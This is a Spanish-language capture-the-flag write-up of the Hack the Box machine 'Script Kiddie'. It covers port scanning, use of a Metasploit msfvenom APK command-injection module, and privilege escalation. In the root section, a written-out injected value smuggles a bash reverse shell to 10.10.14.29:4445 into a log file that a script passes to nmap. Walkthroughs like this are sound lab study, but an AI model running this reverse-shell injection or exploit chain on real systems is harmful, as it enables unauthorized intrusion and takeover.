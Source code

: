 ```yaml
---
description: >-
  G4l1l30 write-up on the easy-difficulty Linux machine Script Kiddie from
  https://hackthebox.eu
title: Hack the Box - Script Kiddie Writeup
date: 2021-06-5 10:40:00 -0600
categories: [Hack the Box, Writeup]
tags: [htb, hacking, hack the box, redteam, Linux, msfvenom, nmap, pivoting, msfconsole ]     # TAG names should always be lowercase
show_image_post: true
image: /assets/img/Linux/easy/ScriptKiddie/InfoCard-ScriptKiddie.png
---
```


# Summary

Script Kiddie es una maquina bastante sencilla, el usuario es pensar un poco fuera de la caja. La parte del root es analizar un script sh, inyectar codigo  para escalar hacia otra cuenta y de ahi con privilegios de sudo obtener una shell de root, esta maquina en si no tiene complejidad.



## Info de la maquina

| VM column  | Detalles      |
| ---------- | ------------- |
| Nombre     | Script Kiddie |
| Dificultad | Easy          |
| Release    | 06/02/2021    |
| OS         | Linux         |
| IP         | 10.10.10.226  |

Editamos ***/etc/hosts***  y agregamos la IP **10.10.10.226** que apunte hacia **scriptkiddie.htb** 

# Escaneo de Puertos

Escaneamos los puertos con Masscan y Nmap, utilizando **Masscan_To_Nmap** , esta herramienta escanea puertos TCP y UDP, toma los abiertos y ejecuta Nmap en búsqueda de servicios y scripts por default, mas info y donde conseguir el script: 

* > [https://github.com/Purp1eW0lf/Masscan_to_Nmap](masscan_to_nmap.py)

Ejecutamos el script : ``sudo python3 masscan_to_nmap.py -i 10.10.10.226`` 

![masscan_01](/assets/img/Linux/easy/ScriptKiddie/masscan_01.png)

Tenemos los siguientes dos puertos : **5000** y **22** , el resultado de Nmap nos arroja lo siguiente:

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 2.6.32 (94%), Linux 5.0 - 5.3 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	
```



# Super H4x0r

Procedemos a verificar el puerto **5000**

![h4x0r](/assets/img/Linux/easy/ScriptKiddie/h4x0r.png)

Un h4x0r WebSite xD, a simple vista tenemos tres(3) herramientas : **nmap** , **msfvenom** y **searchsploit** 

1) Nmap : 

![h4x0r](/assets/img/Linux/easy/ScriptKiddie/h4x0r.png)

No se le puede sacar mas provecho.

2) Searchsploit : 

<img src="/assets/img/Linux/easy/ScriptKiddie/h4x0r_02.png" alt="h4x0r_02" style="zoom:75%;" />

3) Msfvenom y why not, usaremos el mismo searchsploit para buscar algo al respecto: 

![h4x0r_03](/assets/img/Linux/easy/ScriptKiddie/h4x0r_03.png)

Encontramos algo interesante, usaremos ese exploit.

![msf01](/assets/img/Linux/easy/Script Kiddie/msf01.png)

# User 

``exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`` 



![msf02](/assets/img/Linux/easy/ScriptKiddie/msf02.png)



Esto nos va a generar un archivo **.apk** 

![msf03](/assets/img/Linux/easy/ScriptKiddie/msf03.png)

![msf04](/assets/img/Linux/easy/ScriptKiddie/msf04.png)



Ponemos netcat a la escucha y : 

![msf05](/assets/img/Linux/easy/ScriptKiddie/msf05.png)

Le hacemos un upgrade a nuestra shell: 

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![kid_user](/assets/img/Linux/easy/ScriptKiddie/kid_user.png)

Ya tenemos el 1er flag :) 



# Root

No hay mucho que hacer, no hay privilegios con sudo, no hay archivos con lo que podamos interactuar, nada interesante en el crontab o en los procesos, asi que hacemos algo de enum basico y nos movemo hacia el otro usuario **pwn** : ``/home/pwn`` veremos un script sh :

![kid_02](/assets/img/Linux/easy/ScriptKiddie/kid_02.png)

Mientras se cumpla la condicion , ejecuta la sentencia de nmap y lo escribe en **hackers** , dado que el script es del usuario **pwn** :

![pwn](/assets/img/Linux/easy/ScriptKiddie/pwn.png)

Intentaremos meter codigo para obtener un rev shell: 

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.29/4445 0>&1' #" >> hackers
```

![pwn_01](/assets/img/Linux/easy/ScriptKiddie/pwn_01.png)

![pwn_02](/assets/img/Linux/easy/ScriptKiddie/pwn_02.png)

Verificamos los privilegios de sudo :

 

![root_01](/assets/img/Linux/easy/ScriptKiddie/root_01.png)

Procedemos : 

```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
```

![root_02](/assets/img/Linux/easy/Script Kiddie/root_02.png)

:) 

![root_03](/assets/img/Linux/easy/ScriptKiddie/root_03.png)

Una maquina bastante sencilla, con esto finalizamos el writeup.

![gali](/assets/img/Linux/easy/ScriptKiddie/gali.png)

